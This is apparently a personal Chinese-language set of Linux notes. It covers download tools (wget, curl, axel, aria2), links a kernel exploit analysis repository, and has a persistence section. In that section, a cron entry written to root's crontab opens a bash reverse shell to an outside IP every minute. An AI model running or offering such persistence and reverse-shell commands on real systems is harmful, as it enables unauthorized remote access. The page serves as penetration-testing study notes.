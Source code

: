 # Linux

[bsauce/kernel-exploit-factory: Linux kernel CVE exploit analysis report and relative debug environment. You don't need to compile Linux kernel and configure your environment anymore. --- bsauce/kernel-exploit-factory：Linux 内核 CVE 漏洞利用分析报告和相关调试环境。您不再需要编译 Linux 内核和配置您的环境。 (github.com)](https://github.com/bsauce/kernel-exploit-factory)

---

## 命令行-下载

### wget

```bash
# 直接下载 
wget http://www.sample-videos.com/video/mp4/big.mp4
# 后台下载
wget -b http://www.sample-videos.com/video/mp4/big.mp4
# 如果网络连接中断,恢复下载
wget -c http://www.sample-videos.com/video/mp4/big.mp4
# 从某个密码保护的 ftp 软件库下载文件
wget --ftp-user=<user_name> --ftp-password=<Give_password> Download-url-address
```

---

### curl

Curl 是另一种高效的下载工具，它可以用来上传或下载文件，只要使用一个简单的命令。它支持暂停和恢复下载程序包，并支持数量最多的 Web 协议，可预测下载完成还剩余多少时间，可通过进度条来显示下载进度。它是所有 Linux 发行版的内置工具。

```bash
# 直接下载
curl -o um.mp4 http://www.sample-videos.com/video/mp4/big.mp4
```

- `-o` : 提供名称，下载文件会以该名称保存
- `-O` : 文件就会以原始名称保存

---

### Axel

这是 wget 的出色替代者，是一款轻量级下载实用工具。它实际上是个加速器，因为它打开了多路 http 连接，可下载独立文件片段，因而文件下载起来更快速。

```bash
apt-get install axel
```

```bash
# 直接下载
axel http://www.sample-videos.com/video/mp4/big.mp4
```

---

### Aria2

这是一种开源命令行下载加速器，支持多个端口，你可以使用最大带宽来下载文件，是一款易于安装、易于使用的工具。

```bash
apt-get install aria2
```

```bash
# 直接下载
aria2c http://www.sample-videos.com/video/mp4/big.mp4
```

---

## 权限维持

### 计划任务(TODO)

> log 显示运行了, 但是回连不上, 很奇怪

检查任务计划服务是否正常运行

```bash
service cron status
```

![image-20241112155442750](http://cdn.ayusummer233.top/DailyNotes/202411121554522.png)

---

查看当前计划任务

```bash
crontab -l
```

![image-20241112155919656](http://cdn.ayusummer233.top/DailyNotes/202411121559597.png)

---

写入计划任务

```bash
echo "*/1 * * * * bash -i >& /dev/tcp/100.1.1.131/7778 0>&1" > /var/spool/cron/crontabs/root

echo "*/1 * * * * echo 233>>/tmp/233" >> /var/spool/cron/crontabs/root
```

---

要删除这个计划任务需要编辑 `/var/spool/cron/crontabs/root`文件, 把这行删除即可

---

> 奇怪的是 log 显示运行完了, 但是收不到 shell:
>
> ![image-20241112180823702](http://cdn.ayusummer233.top/DailyNotes/202411121808685.png)
>
> ![image-20241112181122435](index.assets/image-20241112181122435.png)



















